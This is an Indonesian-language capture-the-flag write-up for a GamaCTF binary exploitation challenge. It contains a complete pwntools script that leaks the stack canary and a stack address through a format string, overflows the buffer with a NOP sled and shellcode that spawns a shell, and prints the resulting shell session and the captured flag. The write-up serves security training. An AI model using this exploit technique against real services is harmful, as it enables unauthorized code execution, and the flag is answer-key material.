 Kita hitung padding nya : 0xffffcefc (alamat return) - 0xffffcda6 (alamat input) = 342

Lalu susun payload, tempatkan karakter sampah sebanyak (0x142-0xc) (sampai sebelum canary), lalu canary, lalu address stack, lalu padding sampai habis, lalu return address, lalu nop slides dan shell.

### Payload
```py
from pwn import *

context.arch='i386'

pad = 342

r = remote('asgama.web.id',40200)
r.recvuntil('>> ')
r.sendline("%83$x.%84$x")
r.recvuntil('Hai ')
addr = r.recvuntil('!')[:-1]

canary = int(addr.split('.')[0],16)
stack = int(addr.split('.')[1],16)

print hex(canary),hex(stack)

r.recv()

payload = 'A'*(0x142-0xc)+p32(canary)+p32(stack)
payload += 'A'*(pad-len(payload))+p32(stack)+'\x90'*0x100+asm(shellcraft.sh())+'\n'
r.sendline(payload)
r.interactive()
```


### Result 
```
python ex.py 
[+] Opening connection to asgama.web.id on port 40200: Done
0xb2882300 0xfff1b620
[*] Switching to interactive mode
Pesanan akan segera diantar!
$ ls
flag
soal
$ cat flag
GamaCTF{b3ba5_7623624828}
```

### Flag 
GamaCTF{b3ba5_7623624828}
